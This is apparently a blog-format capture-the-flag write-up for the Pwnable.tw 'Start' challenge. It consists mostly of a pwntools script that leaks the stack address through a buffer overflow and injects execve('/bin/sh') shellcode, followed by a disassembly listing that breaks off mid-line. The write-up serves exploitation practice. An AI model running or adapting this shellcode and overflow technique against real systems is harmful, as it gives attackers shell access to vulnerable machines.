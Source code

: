 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  print esp_add

  esp_add = u32(esp_add[0:4])
  print esp_add
  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)


  conn.interactive()
  conn.close()
{% endhighlight %}


{% highlight assembly linenos %}
.text:08048060 push    esp
.text:08048061 push    offset _exit
.text:08048066 xor     eax, eax                        ; Logical Exclusive OR
.text:08048068 xor     ebx, ebx                        ; Logical Exclusive OR
.text:0804806A xor     ecx, ecx                        ; Logical Exclusive OR
.text:0804806C xor     edx, edx                        ; Logical Exclusive OR
.text:0804806E push    3A465443h
.text:08048073 push    20656874h
.text:08048078 push    20747261h
.text:0804807D push    74732073h
.text:08048082 push    2774654Ch
.text:08048087 mov     ecx, esp                        ; addr
.text:08048089 mov     dl, 14h                         ; len
.text:0804808B mov     bl, 1                           ; fd
.text:0804808D mov     al, 4
.text:0804808F int     80h                             ; LINUX - sys_write
.text:08048091 xor     ebx, ebx                        ; Logical Exclusive OR
.text:08048093 mov     dl, 3Ch
.text:08048095 mov     al, 3
.text:08048097 int     80h                             ; LINUX -

{% endhighlight %}







